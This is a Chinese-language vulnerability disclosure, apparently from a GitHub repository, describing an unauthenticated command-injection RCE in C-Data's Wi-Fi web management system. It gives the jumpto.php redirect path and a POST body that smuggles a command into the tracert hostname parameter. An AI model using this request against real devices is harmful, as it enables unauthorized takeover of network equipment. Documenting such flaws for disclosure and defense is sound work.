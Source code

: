 # C-Data Wi-Fi Web管理系统存在未授权RCE漏洞

## 一、漏洞描述

        C-Data是一家提供主流接入网技术所需全线产品的高科技企业。在中国市场，C-Data拥有电信、广电、驻地网运营商、系统集成商等众多品牌客户，产品销售更是覆盖世界各地，在南美洲、非洲、东欧、东南亚、亚太地区近百个国家的运营商网络、企业网络中得到了广泛应用。

        而其提供的Wi-Fi Web管理系统存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。



## 二、定位漏洞点

在cgi-bin 目录下 jumpto.php 可以通过拼接GET参数，跳转到同级目录下的php或html文件

![](assets\jumpto.png)

同级目录中的diagnosis目录下的diagnosis_config_save.php文件中提供了tracert功能，其代码如下：

![image-20221201184212966](assets/image-20221201184212966.png)

![](assets\tracert_vuln.png)

在指定call_function为tracert时，该函数接受post的iface参数与hostname参数，拼接指令并执行。然而此处对传进来的iface与hostname参数都没有进行校验，因此可以通过构造阶段从而实现任意命令执行。

## 三、漏洞利用

根据漏洞点构造发包请求，将其设置为POST请求包，

设置GET参数使得能够从jumpto.php跳转到diagnosis_config_save.php

```
cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1
```

设置POST参数使得可以执行ping命令并对其截断从而执行任意命令

```
call_function=tracert&iface=eth0&hostname=127.0.0.1;cmd
```

漏洞利用结果如下，成功执行id指令，返回被攻击端的用户id：

![](assets/tracert_success.png)